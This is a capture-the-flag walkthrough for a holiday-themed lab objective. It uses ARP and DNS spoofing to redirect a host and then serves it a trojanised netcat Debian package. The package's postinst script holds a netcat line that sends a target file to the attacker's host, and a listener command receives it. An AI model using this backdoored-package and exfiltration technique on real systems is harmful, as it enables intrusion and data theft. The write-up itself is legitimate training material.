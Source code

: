 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt on a remote host using ARP  and DNS spoofing.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/arp_resp-py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.

Capture of ARP spoofing success with following DNS query:

```
15:57:16.006467 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
15:57:47.028750 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
15:57:47.057274 IP 10.6.6.35.27609 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)`
```
Next a [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/dns_resp.py) was prepared to capture DNS requests to the spoofed host and to send replies redirecting traffic to ftp.osuosl.org to the local host.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```
A Node.js HTTP server was started and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the device the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include this line in the postinst script:

    /bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt

and then made available in the web tree folder as pub/jfrost/backdoor/suriv_amd64.deb.
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt).
In this file it can be found that **Tanta Kringle** recused herself from the vote.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTYzNDM5NDk0MSwxMjA0NDI2NTM5LC0xNz
k4NDE1ODk2LC04NzgzOTIyMTYsNTE0MjA5MTU5XX0=
-->